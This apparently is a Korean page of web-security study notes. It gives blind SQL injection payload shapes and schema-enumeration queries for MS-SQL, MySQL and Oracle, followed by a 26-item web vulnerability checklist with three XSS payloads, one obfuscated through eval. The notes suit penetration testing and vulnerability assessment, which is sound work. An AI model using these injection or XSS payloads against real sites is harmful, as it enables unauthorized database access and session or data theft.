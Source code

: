 <h2>[MS-SQL]</h2> <br>
# Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
# get DB NAME <br>
db_name() <br>
<br>
# Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
# Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
# Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<h2>[MySQL]</h2> <br>
# Shape
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
# Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  
-----------------------------------------------------------------------------------
<h2>[Oracle]</h2><br>
# Shape
and (ascii(SUBSTR(select username from all_users where rownum = 1),1,1))) > 1

# Get DB name <br>
select DISTINCT owner FROM all_tables;

# Get Table name <br>
select table_name from all_tables;

# Get Column name <br>
select column_name from all_tab_columns where table_name='[table name]';


Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
